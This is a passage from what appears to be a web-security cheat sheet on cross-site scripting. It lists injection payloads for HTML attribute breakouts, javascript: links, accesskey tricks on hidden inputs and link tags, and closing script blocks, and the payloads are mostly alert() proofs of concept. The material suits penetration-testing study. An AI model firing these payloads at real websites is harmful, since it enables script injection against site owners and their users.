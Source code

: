 * `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag
{{< /hint >}}

### In HTML tag attributes

* Terminate the attribute value, close the tag, and introduce a new one.

```html
"><script>alert(document.domain)</script>
```

* If angle brackets are blocked or encoded, introduce a new attribute that creates a scriptable context.

```html
" autofocus onfocus=alert(document.domain) x="
```

* If XSS context is into the href attribute of an anchor tag, use the javascript pseudo-protocol to execute script

```html
<a href="javascript:alert(document.domain)">
```

* Access keys allow you to provide keyboard shortcuts that reference a specific element. This is useful in hidden inputs because events like onmouseover and onfocus can't be triggered due to the element being invisible

```html
<input type="hidden" accesskey="X" onclick="alert(1)">
```

```html
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

{{< hint style=notes >}}
**Tips**:

* Substitute `'` `"` and viceversa
* Space is not needed

```html
<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
```
{{< /hint >}}

```html
<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
```

### Into JavaScript

**Terminating the existing script**

The browser interprets the `</script>` sequence within the string as the end of the script block, prematurely stopping the execution of your JavaScript script and generating an error.

```html
<script>
...
var input = 'controllable data here';
...
</script>
```
